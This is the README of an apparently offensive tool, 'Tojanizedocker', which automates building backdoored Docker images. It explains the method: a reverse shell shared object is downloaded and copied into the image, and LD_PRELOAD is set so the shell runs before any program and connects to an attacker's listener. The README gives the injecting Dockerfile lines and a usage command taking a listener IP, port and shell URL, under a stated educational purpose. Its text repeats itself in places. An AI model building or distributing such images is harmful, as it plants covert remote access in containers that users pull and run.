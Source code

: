 # Tojanizedocker - Docker Backdoor Image Creator (Based on Dockerscan)

This Python script facilitates the creation of a backdoored Docker image. It automates the process by downloading a specified reverse shell binary, embedding it into the Docker image, and configuring environment variables to establish a reverse shell connection. 
This is a Python script that is going to help a user to create a Docker image with a backdoor. By doing so, it makes the process automatic by making use of a certain reversed shell binary, embedding it into the Docker image and setting environment variables to provide reverse shell connection. The script uses reverse shell component that was originally developed by [cr0hn - Dockerscan](https://github.com/cr0hn/dockerscan/blob/590a844418038d25e6649e609ef630868e0c9161/dockerscan/actions/image/modifiers/shells/reverse_shell.so).

## Background

The motivation for developing this script stemmed from the lack of recent updates on the Dockerscan project; the last commit was made on May 27, 2020 [view commit](https://github.com/cr0hn/dockerscan//commit/590a844418038d25e6649e609ef630868e0c9161). The need for a substitute that would be easy to use and work with the different versions of Python which was used by Dockerscan.

## Purpose

It is achieved by designing the software for educational purposes, enabling users to understand and demonstrate the operations of Docker image manipulation using `LD_PRELOAD`.

## How It Works

The script performs several key operations to create a backdoored Docker image:

1. **Download Reverse Shell Binary**: It downloads a reverse shell shared object file (`.so`) from a specified URL. This file is designed to establish a remote connection from the Docker container to an attacker-controlled server.

2. **Create Dockerfile**: The script dynamically generates a Dockerfile that incorporates the downloaded reverse shell. This Dockerfile instructs Docker to copy the reverse shell into the image and set it to be loaded before any other library by using the `LD_PRELOAD` environment variable.

## Understanding LD_PRELOAD and Reverse Shell Injection

- The Dockerfile created by this script contains the following critical lines:

```
COPY reverse_shell.so /usr/share/lib/reverse_shell.so
ENV LD_PRELOAD=/usr/share/lib/reverse_shell.so
```
## What Does This Do?

- `COPY reverse_shell.so /usr/share/lib/reverse_shell.so`: Command copies the reverse shell binary (reverse_shell.so - used in dockerscan) into a specific location inside the Docker image. 

- `ENV LD_PRELOAD`=/usr/share/lib/reverse_shell.so: By setting the LD_PRELOAD environment variable, it is intructed that the Linux dynamic linker to load our specified `reverse_shell.so` file before any other libraries when a program is run. This is a powerful method for modifying the behavior of compiled applications transparently.

- Use LD_PRELOAD leading to immediate code execution: Using `LD_PRELOAD` with a constructor attribute in the shared object allows executing custom code before the main application starts. This can be used for debugging, monitoring, or altering the application's normal operation without modifying the source code.

  
## Requirements

Before running the script, ensure that Docker is installed and running on your system. Python 3.x is also required.

## Installation

Install the required Python libraries with:

```
pip install -r requirements.txt
```

## Usage

```
python docker_backdoor.py -i <base-image> -o <output-image> -l <listener-ip> -p <listener-port> --shell-url <url-to-reverse-shell>
```

## Credits [Based On]

- **Backdooring Docker images - Reverse shell**: [Backdooring Docker images - Reverse shell](https://greencashew.dev/posts/backdooring-docker-images-reverse-shell/)
- **DockerScan GitHub Repository**: [Source for DockerScan, a tool for security analysis of Docker containers](https://github.com/cr0hn/dockerscan/)
- **LD_PRELOAD: How to Run Code at Load Time**: [LD_PRELOAD: How to Run Code at Load Time](https://www.secureideas.com/blog/2021/ldpreload-runcode.html)
- Thanks to #chatgpt

